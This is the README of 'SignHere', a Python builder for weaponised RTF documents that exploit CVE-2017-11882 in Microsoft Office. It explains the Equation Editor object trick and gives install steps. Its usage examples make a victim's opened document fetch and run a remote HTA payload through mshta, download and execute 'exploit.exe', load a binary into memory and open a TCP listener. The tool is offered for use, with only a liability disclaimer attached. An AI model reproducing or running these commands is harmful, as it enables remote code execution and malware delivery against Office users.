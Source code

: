 ## SignHere
<b>Introduction</b>

<b>CVE-2017-11882</b> - The unique vulnerability identifier of Microsoft Office 2007 Service Pack 3, Microsoft Office 2010 Service Pack 2, Microsoft Office 2013 Service Pack 1, and Microsoft Office 2016 allows an attacker to run code in the context of the current user without properly handling objects in memory, the so-called "Microsoft Office Memory corruption vulnerability".
The implementation includes creating a program for building malicious rtf documents and payloads in VBScript

<b>The principle of operation</b>
--
It is rtf documents that are vulnerable for the reason that they can be "programmed" by knowing special commands-RTF Headers. Thus, a binary (executable) object is created in the body of the document, in fact, it is a Microsoft Equation formula with the code that contains the cmd command. Then you can generate the payload in VBScript and use the command " mshta link to the payload file” to execute the hta file.

<br>

# Attention!
Author and contributors <b>are not responsible</b> for any damage caused to you or by you.

## Installation
The program requires [Python 3](https://www.python.org) for executing.
--
<b>Linux</b>
--
You can use <b>Termux</b>, but execution of program requires <b>root</b>

```sh
git clone https://github.com/Retr0-code/SignHere/
cd SignHere/
chmod +x SignHere.py
./SignHere.py --help
```
<br>

<b>Windows</b>
--
First, you need to download the [archive](https://github.com/Retr0-code/SignHere/archive/main.zip). Then unpack it and open a PowerShell window in this folder and write:
```sh
.\SignHere.py --help
```

## Usage

```python
./SignHere.py --cmd "mshta http://192.168.1.74/pay.hta" --powershell "start iexplore.exe https://github.com/Retr0-code/SignHere" --ip 192.168.1.74 --output generated.rtf
```

<b>--cmd</b>
Argument with Windows command that will be executed after opening document.

<b>--powershell</b>
Argument with powershell command that will be in VBScript payload.

<b>--ip</b>
Argument with ip address that will be used for web-server. (default: 127.0.0.1)

<b>--output</b>
Name and path of document.

<br>

```python
./SignHere.py --cmd "mshta http://192.168.1.74/pay.hta" --temp exploit.exe --ip 192.168.1.74 --output generated.rtf
```

<b>--temp</b>
Argument that will use binary file as payload (binary file will start in RAM memory).

<br>

```python
./SignHere.py --cmd "mshta http://192.168.1.74/pay.hta" --payload exploit.exe --ip 192.168.1.74 --listener-host 192.168.1.74 --output generated.rtf
```

<b>--payload</b>
Argument that will download file on computer of victim and execute it.

<b>--listener-host</b>
Argument for starting TCP listener on current ip (default: 127.0.0.1)

